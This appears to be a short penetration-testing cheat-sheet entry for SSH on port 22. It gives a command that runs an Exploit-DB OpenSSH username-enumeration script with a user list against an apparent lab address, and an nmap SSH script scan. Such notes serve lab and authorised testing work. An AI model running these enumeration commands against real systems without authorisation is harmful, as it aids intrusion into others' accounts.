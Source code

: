 # 22 tcp - SSH

### [OpenSSH 2.3 &lt; 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233)

`python openssh_username_enum.py --port 22 --userList ssh_list.txt --outputFile ssh_enum_results.txt 10.10.10.55`

#### Nmap nse script

```text
nmap -sV --script="ssh* and note brute" -p22 <target-ip> -oN ssh_script_scan.nmap
```



